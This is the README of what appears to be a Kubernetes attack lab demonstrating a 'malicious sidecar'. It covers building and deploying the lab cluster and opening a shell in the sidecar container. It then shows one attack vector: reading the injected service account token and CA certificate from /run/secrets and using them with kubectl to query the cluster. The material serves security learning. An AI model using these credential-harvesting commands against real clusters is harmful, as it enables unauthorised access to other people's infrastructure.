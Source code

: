 # Attacking cluster from malicious sidecar

## Setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Easy attack vectors

### Kubernetes injected runtime secrets

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt get pods
```

